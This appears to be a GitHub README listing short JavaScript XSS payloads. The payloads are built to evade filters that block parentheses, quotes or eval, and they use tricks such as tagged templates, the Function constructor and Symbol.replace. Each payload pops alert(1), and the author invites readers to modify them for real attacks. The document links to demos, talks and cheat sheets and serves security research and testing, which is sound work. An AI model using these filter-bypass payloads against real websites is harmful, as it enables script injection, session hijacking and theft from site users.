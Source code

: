 # XSS oneliners payloads that rocks your nuts!

This was a list that I use often has a reference tool that I decided to publish. If you want to contribute your welcome, just tweet me at [@dsopas](https://twitter.com/dsopas) or something. Critics are always welcome!

BTW: the result is always to alert the number 1, if you want to do a real attack scenario just modify the vectors above.

## Without parentheses and quotes
```javascript
self[0X10f8809.toString`36`]`1`
```

PS: You can also use top instead of self to cut down 1 char.

Online: [https://jsfiddle.net/hx7kypv6/]() by [@aemkei](https://twitter.com/aemkei)

```javascript
x=alert,x`1`
```

Online: [https://jsfiddle.net/0bp4b2mf/]() - don't know really...

## Without quotes or backticks

```javascript
Object.bind(null,alert)()(1)
```

Online: [https://jsfiddle.net/w99tv481/]() by [@garethheyes](https://twitter.com/garethheyes)

## Eval without eval() and without quotes

```javascript
atob.constructor`alert\`1\````
```

Online: [https://jsfiddle.net/r4tdhs1L/]() by [@aemkei](https://twitter.com/aemkei)

## Other evading payloads

```javascript
Function('x=alert`1`','y')()
```

Online: [https://jsfiddle.net/qawpegx9/]() by [@garethheyes](https://twitter.com/garethheyes)

```javascript
/1/[Symbol.replace]('1',alert)
```

Online: [https://jsfiddle.net/7m9ex6L8/]() by [@garethheyes](https://twitter.com/garethheyes)

```javascript
Array.from([1],alert)
```

Online: [https://jsfiddle.net/ck5v3zgk/]() by [@garethheyes](https://twitter.com/garethheyes)

# Resources

* [XSSChallengeWiki](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml)
* [JSFuck - Write any JavaScript with 6 Characters](https://github.com/aemkei/jsfuck)
* [HTML5 Security Cheatsheet](https://html5sec.org/)
* [XSS Polyglot Challenge](http://polyglot.innerht.ml/)
* [XSS Mindmap](https://github.com/jackmasa/XSS.png)


# Talks

* [AppSec EU 2017 Don't Trust The DOM: Bypassing XSS Mitigations Via Script Gadgets by Sebastian Lekies](https://www.youtube.com/watch?v=p07acPBi-qw)
* [AppSec EU15 - Gareth Heyes - XSS Horror Show](https://www.youtube.com/watch?v=yv5OtiIJwEE)
* [nullcon Goa 2015: ECMA Script 6 from an Attacker's Perspective by Mario Heiderich](https://www.youtube.com/watch?v=QnqFq-lcJ1I)
